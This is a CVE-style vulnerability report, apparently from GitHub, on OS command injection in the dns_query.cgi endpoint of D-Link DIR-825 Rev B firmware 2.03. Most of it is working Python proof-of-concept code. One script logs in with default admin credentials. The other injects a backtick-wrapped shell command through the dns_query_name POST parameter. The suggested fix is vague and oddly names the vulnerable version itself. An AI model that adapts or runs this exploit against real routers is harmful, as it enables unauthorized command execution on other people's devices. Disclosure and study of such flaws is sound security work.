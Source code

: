 

# CVE Report - Command Injection Vulnerability in DIR_825_REVB_FIRMWARE_2.03 Routers 

## Vulnerability Title

Command Injection Vulnerability in DIR_825_REVB_FIRMWARE_2.03 Router. 

## Vulnerability Description

DLINK DIR_825_REVB_FIRMWARE_2.03 devices have an OS command injection vulnerability
in the CGl interface "dns_query.cgi",which allows remote attackers to execute arbitrary
commands via parameter "dns_query_name" passed to the "dns_query.cgi" binary
through a POST request.

## Reproduction Steps

1. Log in to the router.

```python
import requests

device_web_ip = '172.17.0.29'

headers = {

  'Host': device_web_ip,

  'Connection': 'keep-alive',

  'Content-Length': '1000',

  'Cache-Control': 'max-age=0',

  'Upgrade-Insecure-Requests': '1',

  'Origin': f'http://{device_web_ip}',

  'Content-Type': 'application/x-www-form-urlencoded',

  'Referer': f'http://{device_web_ip}',

  'User-Agent': 'Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/127.0.0.0 Safari/537.36 Edg/127.0.0.0',

  'Accept': 'text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7',

  'Accept-Encoding': 'gzip, deflate',

  'Accept-Language': 'zh-CN,zh;q=0.9,en;q=0.8,en-GB;q=0.7,en-US;q=0.6'

}

login_params = login_params = {

  'html_response_page': 'logout_fail.asp',

  'login_name': 'YWRtaW4A',

  'login_n': 'admin',

  'login_pass': 'YWRtaW4A',

  'login': 'Log In'

}

login_url = 'http://{}/login.cgi'.format(device_web_ip)

r = requests.post(url=login_url, data=login_params, headers=headers, timeout=0.2)

if r is None or r.status_code != 200:

 print('Login wrong, please retry!')

 exit()

print(r.text)
```



2. Use the following Python code to test the vulnerability:

```py
#coding=gbk
import requests
import pickle 
import time

device_web_ip = "172.17.0.29"
base_url = "http://172.17.0.29/"

headers = {
    'Host': device_web_ip,
    'Connection': 'keep-alive',
    'Content-Length': '1000',
    'Cache-Control': 'max-age=0',
    'Upgrade-Insecure-Requests': '1',
    'Origin': f'http://{device_web_ip}',
    'Content-Type': 'application/x-www-form-urlencoded',
    'Referer': f'http://{device_web_ip}',
    'User-Agent': 'Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/127.0.0.0 Safari/537.36 Edg/127.0.0.0',
    'Accept': 'text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7',
    'Accept-Encoding': 'gzip, deflate',
    'Accept-Language': 'zh-CN,zh;q=0.9,en;q=0.8,en-GB;q=0.7,en-US;q=0.6'
}

target_para = {
    'dns_query_name':'`ping -c 3 172.17.0.1`',
    }
r = requests.post(url=base_url+'dns_query.cgi', data=target_para, headers=headers)
print(r.text)
```



## Cause Analysis

The get_cgi function accepts external data and it enters system execution, resulting in a command execution vulnerability.

![image-20241229183116434](C:\Users\XiaoA\AppData\Roaming\Typora\typora-user-images\image-20241229183116434.png)



## Suggested Fix

It is recommended to update to the version of DIR_825_REVB_FIRMWARE_2.03 router to fix this vulnerability. 

